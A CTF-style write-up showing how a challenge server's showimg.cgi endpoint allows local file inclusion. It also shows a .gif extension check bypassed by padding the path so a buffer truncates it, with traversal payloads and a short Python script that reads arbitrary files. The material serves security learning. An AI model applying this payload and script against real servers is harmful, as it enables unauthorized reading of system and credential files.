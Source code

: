 ```html
</html>
```

# LFI Discovery

After a brief analysis of the webpage workflow, we discovered that the GIF files are delivered via a function called `showimg.cgi`.

Testing this endpoint, we noticed that we obtain the same output with the following different requests:

- `/cgi-bin/showimg.cgi?0.gif`
- `/cgi-bin/showimg.cgi?./././9.gif`
- `/cgi-bin/showimg.cgi?../data/9.gif`

This means that the endpoint is vulnerable against Local File Inclusion.
In the other hand, if we ask for some non existent file or directory, we'll receive an error indicating that the requested path doesn't exist. In addition, if we request a file that is not a `.gif` terminated, the webpage tells us `"ERROR: must be a .gif file"`.


# LFI extension bypass

With furthermore testing of the CGI file, we were able to discover a way to bypass the extension restriction.

The points we came across with the testing is the following one:

- The user request is stored in a large buffer
- The extension comparison is successfully checked with this buffer
- The request is formatted into a smaller buffer so the exceeded characters are not included.
- If we exploit the buffer size differences, with correct length, final path may be clean of the mandatory `.gif` extension so we're able to get any file in the server independent to the extension.

The proof of concept payload ended up being:

`/cgi-bin/showimg.cgi/?../data//////////////////////////////////////////////////////////////////////////////////////////9.gif/.gif`

With the following payload, we knew the payload size had to be 107 bytes long. The payload generation can be done as follows:

```python
import requests
URL = "http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi?"
def getfile(path):
    payload = ("/"*(107-len(path) - 5) + path + '/.gif')
    r = requests.get(URL + payload)
    return r.text

while True:
    print(getfile(input("File to get: ")))
```
